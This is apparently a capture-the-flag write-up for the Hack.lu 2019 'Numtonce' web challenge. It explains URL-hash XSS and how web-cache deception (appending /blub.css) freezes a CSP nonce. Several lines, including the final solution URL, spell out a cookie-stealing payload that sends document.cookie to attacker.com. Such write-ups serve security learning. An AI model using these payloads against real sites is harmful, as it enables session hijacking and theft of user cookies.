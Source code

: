 ```yaml
---
layout: writeup
title:  "Numtonce"
source: "https://fluxfingersforfuture.fluxfingers.net/challenges/29"
solves: "7/972"
date:   2019-10-12 01:10:05 +0200
event: "Hack.lu 2019"
categories: [writeup]
author: "Alain K."
---
```


## Description
> With all the bad news in the world, everyone needs a calm place to wind down. 
> [We built one](https://numtonce.fluxfingersforfuture.fluxfingers.net/), 
> but you have to help us keep it safe. If you find anything suspicious, 
> [tell the forest ranger](https://numtonce.fluxfingersforfuture.fluxfingers.net/submit/)!
> He might reward you with a cookie :)

![Image of Website](https://github.com/LetzPwn/ctf-writeups/raw/master/hack_lu_2019/Numtonce/website.png)
## TL;DR
XSS is possible over URL hash. However CSP is set, so no external scripts allowed. Except if nonce tag is correct. Idea is to 
force the nonce tag to be the same after refreshes by loading the website from a cache. js/css/image files are loaded from cache, the index.php file itself not. 
Force index.php file to load from cache by appending a css filename to the url: http://url.com/index.php/blub.css. index.php will still load, 
however the proxy server things it is a css file and loads a cached version of index.php. Hence, we know the nonce in advance and can exceute custom js.

## Complete Writeup
By reading the description, it seems like the goal of the challenge is to steal a cookie from the browser. 
This is usually done by injecting custom javascript into the website (XSS) with a piece of code sending 
the cookie to a server controlled by the attacker. The forest ranger's website is just a text field to subit an URL too. 
A bot will then visit that URL with a cookie set to the flag to capture. Knowing this, the plan of attack:
1. Forge an URL that triggers custom javascript to send the cookie to a server we control
2. Submit the URL to the forest ranger bot
3. Check our server logs for stolen cookie
4. Submit the flag inside the cookie :)

Looking at the website itself, it seems to be very simplistic. It has one single page and the source code is pretty much only this javascript code:
```html
<script nonce="b80a92df721eda620876363536b7e9a6" src="/emojify.min.js"></script>
<script>
    const l=location
      let h=l.hash
      var p=l.hostname
    const s=l.search
      let a=h.split(p)
      var b=a.map((o,O)=>(O^0!==0&&o||'')).map(decodeURIComponent)
    const o0o=b.join(s)
      let script=sessionStorage[a[0]]
      var my=a=>b
    const msg='there is p' in my `t'
˂/script>

<script>
    o0o='nope'
˂/script>

A wise man once said: 'A CSP a day keeps the XSS away.`

<script>
    document.write('<div id="garden">');
    document.write(o0o||'tt t t t fnttttttttt nfst t ttt n t tl t  tnr tmtt dt n  cttttrttntt t tttttnttt   t t nt   tt tt nt  t  t  t'.split('').map(c=>({t:':evergreen_tree:',f:':fallen_leaf:',s:':squirrel:',l:':leaves:',r:':rabbit:',m:':maple_leaf:',d:':droplet:',c:':cherry_blossom:',n:'<br/>',' ':':white_small_square:'}[c])).join(''));
    document.write('</div>');

    emojify.setConfig({ img_dir: '/emojis' });
    emojify.run(garden);
</script>
```
Looking at the code, it is pretty clear that XSS over the URL is possible due to the `document.write(o0o)` line. Backtracing `o0o`, 
one can see that it is generated using the components of the url after the hashtag. Precisely, one can inject code using the following url scheme:
`https://numtonce.fluxfingersforfuture.fluxfingers.net/#numtonce.fluxfingersforfuture.fluxfingers.net<h1>test</h1>`

Next step is to try to embed our javascript code. However, that is where we hit a wall:
![Image of CSP error](https://github.com/LetzPwn/ctf-writeups/raw/master/hack_lu_2019/Numtonce/csp.png)
A CSP header was set to not allow scripts, except if the nonce tag or the scripts sha256 was correct:

`Content-Security-Policy: default-src 'none'; script-src 'sha256-CRtdY47bt+vWDdsuOTTeizFLvSy49h32pVgpWlyN0TU=' 'nonce-117bc8c1d6ead80e5b6ad3f3eca4921e'; img-src 'self'; style-src 'self'; base-uri 'none'; frame-ancestors 'none'; form-action 'none';`

The nonce is a random token that gets newly generated whenever the site reloads. 
Both options seemed impossible to us (and even the [CSP Evaulator said the header is safe](https://csp-evaluator.withgoogle.com/)), 
so we started to try to understand the rest of the javascript code and even analyze the included `emojify.js`. 
This proved to be completely unnecassary (see *Lessons learned* ). 
The rest of the javascript proved to be distractions only. It even includes a `<script>` tag that is not an actual script tag, 
but a comparison to a javascript variable called script. We spent a lot of time trying to figure out the meaning of all this but it was worthless.

After a while something intersting hit us. The js/css/image files included a strange header in the HTTP response:

`Hit-Or-Miss: i guess they never miss huh?`

This is when we noticed that js/css/iamge files were loaded from a cache. They also had an Age header, which expired after 10 minutes.
Then the idea struck, that if we managed to load the index.php from cache, the token would be the same for 10 minutes! We tried to force loading the index.php by setting some speciel request headers (Cache-Control, etc.). 
However none worked and also the bot to steal the cookie from would not have them set.

As one other header was `Server: nginx`, we looked up how to setup a basic cache on nginx. Basically, a regex filter is applied to the url and if it matches, files get cached.

So we tried to forge an URL that ends with .css but still loads index.php. After some trial and error, we forged the following url: `https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css`.

SUCCESS! The nonce token was always the same and the response had all the caching headers!

Trying out the following we get XSS with an alert ( {nonce} being the CSP nonce token that was in a previous response header):
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">alert(1)</script>`

However trying to send the cookie to our server via ajax or as img src didn't work due to the CSP again. So we used the same trick again and wrote a script tag with the correct nonce:
`document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');`

In hindsight, a document.location=https://attacker.com/cookie='+document.cookie+' would have worked too.

## Final Solution
`https://numtonce.fluxfingersforfuture.fluxfingers.net/index.php/blub.css#numtonce.fluxfingersforfuture.fluxfingers.net<script nonce="{nonce}">document.write('<script nonce="{nonce}" src="https://attacker.com/cookie='+document.cookie+'"></script>');</script>`

{nonce} being the CSP nonce token that was in a previous response header with the same URL

## Lessons learned
Check and understand the CSP! We would have saved a looot of time if we understood the CSP correctly straight away. As `default-src` was set to `none`. 
We should have noticed that it is impossible to include any external resource. Meaning that even if we would have found some unsafe javascript code inside the website itself, 
it would still have been impossible to send the cookie to an external server! The only exceptions to be able to contact an external server would be if the nonce of a script tag is correct or the sha256 
of the external script would be correct. As it is impossible to find sha256 collisions, finding a correct nonce is the only possible solution. So no matter what we tried to do,
we sould have noticed from the beginning that we needed to force a valid nonce!

